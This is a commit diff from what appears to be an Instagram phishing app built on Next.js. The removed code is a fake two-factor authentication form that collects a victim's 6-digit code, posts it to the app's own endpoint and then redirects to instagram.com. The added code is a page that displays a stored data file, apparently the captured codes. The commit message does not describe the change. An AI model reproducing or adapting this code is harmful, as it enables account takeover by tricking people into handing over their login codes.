

Before and after one commit to arabmistcoffeegenie/instasim-vercel, a Next.js app: page /view in a window 1280 px wide. Shown: the top 306 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
✅ Added Mac-only sound listener and removed sound from public pages

```diff
--- a/pages/view.js
+++ b/pages/view.js
@@ -1,56 +1,36 @@
-import { useState, useEffect } from 'react';
+import fs from 'fs';
+import path from 'path';
 
-export default function ViewOtpForm() {
-  const [otp, setOtp] = useState('');
+export async function getServerSideProps() {
+  const filePath = path.join(process.cwd(), 'data', 'data.txt');
+  let content = '';
 
-  useEffect(() => {
-    // Preload the notification sound
-    const audio = new Audio('/notify.mp3');
-    audio.load();
-  }, []);
+  try {
+    content = fs.readFileSync(filePath, 'utf8');
+  } catch (err) {
+    content = 'No data yet.';
+  }
 
-  const handleSubmit = async (e) => {
-    e.preventDefault();
+  return {
+    props: {
+      content,
+    },
+  };
+}
 
-    const res = await fetch('/api/otp', {
-      method: 'POST',
-      body: new URLSearchParams({ otp }),
-      headers: {
-        'Content-Type': 'application/x-www-form-urlencoded',
-      },
-    });
-
-    if (res.ok) {
-      const audio = new Audio('/notify.mp3');
-      audio.play(); // 🔊 Play sound on success
-      window.location.href = 'https://www.instagram.com';
-    } else {
-      alert('❌ OTP submission failed');
-    }
-  };
-
+export default function ViewPage({ content }) {
   return (
-    <div className="min-h-screen flex items-center justify-center bg-black text-white">
-      <form onSubmit={handleSubmit} className="space-y-4 bg-gray-900 p-6 rounded shadow-lg w-full max-w-md">
-        <h1 className="text-xl font-bold text-center">Two-Factor Authentication</h1>
-        <p className="text-sm text-gray-400 text-center">Enter the 6-digit code sent to your phone</p>
-        <input
-          type="text"
-          name="otp"
-          value={otp}
-          onChange={(e) => setOtp(e.target.value)}
-          placeholder="Enter OTP"
-          maxLength={6}
-          className="w-full px-4 py-2 rounded bg-gray-800 border border-gray-700 text-white tracking-widest text-center"
-          required
-        />
-        <button
-          type="submit"
-          className="w-full bg-blue-600 hover:bg-blue-700 text-white font-semibold py-2 px-4 rounded"
-        >
-          Continue
-        </button>
-      </form>
+    <div style={{
+      backgroundColor: "#000",
+      color: "#fff",
+      padding: "20px",
+      fontFamily: "monospace",
+      whiteSpace: "pre-wrap",
+      minHeight: "100vh", // ✅ Fix added here for full-screen background
+      boxSizing: "border-box"
+    }}>
+      <h2>📄 data.txt contents</h2>
+      <pre>{content}</pre>
     </div>
   );
 }
```
Also changed, not shown: pages/admin.js (added, +43 -0 lines), pages/index.js (+2 -15 lines).
